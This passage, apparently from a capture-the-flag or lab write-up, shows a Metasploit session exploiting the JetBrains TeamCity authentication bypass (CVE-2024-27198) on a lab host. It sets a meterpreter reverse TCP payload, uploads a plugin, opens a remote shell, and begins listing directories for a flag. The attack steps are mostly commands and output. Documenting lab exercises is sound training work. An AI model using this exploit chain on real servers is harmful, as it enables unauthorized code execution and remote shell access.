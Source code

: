 Then I used the 4th exploit:

```nginx
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             10.201.68.214    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              50000            yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.201.21.209    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.
```
After running:
```nginx
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > run
[*] Started reverse TCP handler on 10.201.21.209:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.WENyNGY3OTVUTldNa1ZoMnVRQnFvRW10OXVZ.OWM0ZDQ4MDAtYzcwYi00ZmEwLWJhNGMtMjdmOWY1NGMzY2Zl
[*] Uploading plugin: EozjFnOu
[*] Sending stage (58073 bytes) to 10.201.68.214
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_EozjFnOu
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/EozjFnOu
[*] Meterpreter session 1 opened (10.201.21.209:4444 -> 10.201.68.214:34876) at 2025-10-02 23:38:04 +0100
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/EozjFnOu' on the target

meterpreter > ls
Listing: /opt/teamcity/TeamCity/bin
```
While crawling through the directories, I found the flag file:
```nginx
Listing: /home/ubuntu
=====================
```